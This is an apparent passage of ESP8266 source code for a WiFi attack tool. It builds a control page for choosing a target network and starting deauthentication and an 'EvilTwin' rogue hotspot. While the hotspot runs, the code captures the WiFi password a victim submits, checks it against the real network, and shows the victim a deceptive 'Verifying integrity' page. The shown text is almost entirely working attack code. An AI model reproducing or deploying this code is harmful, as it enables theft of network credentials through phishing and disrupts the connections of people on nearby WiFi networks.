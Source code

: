   if (hotspot_active == false) {
    String _html = _tempHTML;

    for (int i = 0; i < 16; ++i) {
      if ( _networks[i].ssid == "") {
        break;
      }
      _html += "<tr><td>" + _networks[i].ssid + "</td><td>" + bytesToStr(_networks[i].bssid, 6) + "</td><td>" + String(_networks[i].ch) + "<td><form method='post' action='/?ap=" + bytesToStr(_networks[i].bssid, 6) + "'>";

      if (bytesToStr(_selectedNetwork.bssid, 6) == bytesToStr(_networks[i].bssid, 6)) {
        _html += "<button style='background-color: #90ee90;'>Selected</button></form></td></tr>";
      } else {
        _html += "<button>Select</button></form></td></tr>";
      }
    }

    if (deauthing_active) {
      _html.replace("{deauth_button}", "Stop deauthing");
      _html.replace("{deauth}", "stop");
    } else {
      _html.replace("{deauth_button}", "Start deauthing");
      _html.replace("{deauth}", "start");
    }

    if (hotspot_active) {
      _html.replace("{hotspot_button}", "Stop EvilTwin");
      _html.replace("{hotspot}", "stop");
    } else {
      _html.replace("{hotspot_button}", "Start EvilTwin");
      _html.replace("{hotspot}", "start");
    }


    if (_selectedNetwork.ssid == "") {
      _html.replace("{disabled}", " disabled");
    } else {
      _html.replace("{disabled}", "");
    }

    _html += "</table>";

    if (_correct != "") {
      _html += "</br><h3>" + _correct + "</h3>";
    }

    _html += "</div></body></html>";
    webServer.send(200, "text/html", _html);

  } else {

    if (webServer.hasArg("password")) {
      _tryPassword = webServer.arg("password");
      if (webServer.arg("deauth") == "start") {
        deauthing_active = false;
      }
      delay(1000);
      WiFi.disconnect();
      WiFi.begin(_selectedNetwork.ssid.c_str(), webServer.arg("password").c_str(), _selectedNetwork.ch, _selectedNetwork.bssid);
      webServer.send(200, "text/html", "<!DOCTYPE html> <html><script> setTimeout(function(){window.location.href = '/result';}, 15000); </script></head><body><center><h2 style='font-size:7vw'>Verifying integrity, please wait...<br><progress value='10' max='100'>10%</progress></h2></center></body> </html>");
      if (webServer.arg("deauth") == "start") {
      deauthing_active = true;
      }